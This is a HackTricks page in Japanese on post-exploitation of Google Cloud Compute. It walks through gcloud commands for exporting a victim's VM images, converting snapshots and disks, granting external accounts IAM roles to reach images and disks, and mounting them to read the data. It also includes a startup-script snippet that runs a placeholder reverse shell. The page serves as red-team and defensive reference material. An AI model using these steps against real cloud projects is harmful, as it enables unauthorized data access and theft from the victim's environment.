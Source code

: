 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **PRを提出してハッキングトリックを共有してください** [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) githubリポジトリ。

</details>
{% endhint %}

## Compute

ComputeとVPC（Networking）に関する詳細情報は以下を参照してください：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### イメージをエクスポートしてローカルで検査

これにより、攻撃者は**既存のイメージ内のデータにアクセス**したり、**実行中のVMの新しいイメージを作成**して、そのデータにアクセスすることができます。

VMイメージをバケットにエクスポートし、次にそれをダウンロードしてローカルにマウントすることが可能です。コマンドは以下の通りです：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するには、攻撃者がストレージバケットに対する権限を持っている必要があり、確実に**cloudbuildに対する権限**が必要です。これは**サービス**がエクスポートを実行するために要求されるからです。\
さらに、これが機能するためには、codebuild SAとcompute SAが特権的な権限を持っている必要があります。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` には以下が必要です:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そして、SA `<project-id>-compute@developer.gserviceaccount.com` には以下が必要です:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクをローカルでエクスポートおよび検査

スナップショットとディスクを直接エクスポートすることはできませんが、スナップショットをディスクに、ディスクをイメージに**変換**し、**前のセクション**に従ってそのイメージをエクスポートしてローカルで検査することが可能です。

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VMを作成してイメージを検査する

攻撃者が**イメージを作成した**VMや**イメージに保存されているデータ**にアクセスすることを目的として、外部アカウントにイメージへのアクセス権を付与することが可能です:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それから新しいVMを作成します:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
外部アカウントにイメージへのアクセス権を与えられない場合、被害者のプロジェクトでそのイメージを使用してVMを起動し、次のパラメータを追加して**メタデータにリバースシェルを実行させる**ことでイメージにアクセスできます:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクをVMにアタッチして検査する

ディスクやスナップショットに保存されている**データにアクセスするために、スナップショットをディスクに変換し、ディスクをイメージに変換して前述の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセス権を付与する**こともできます（開始点がスナップショットの場合は、スナップショットにアクセス権を付与するか、そこからディスクを作成します）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**ディスクをアタッチ** するインスタンス:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM内にディスクをマウントする:

1.  **VMにSSH接続**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定**: VM内で新しいディスクを特定するためにディスクデバイスをリストします。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウント** (新しいまたは未使用のディスクの場合):
*   マウントポイントを作成:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウント:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

スナップショットやディスクに外部プロジェクトへのアクセスを許可できない場合、**スナップショット/ディスクと同じプロジェクト内のインスタンスでこれらの操作を実行する必要がある**かもしれません。

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。

</details>
{% endhint %}
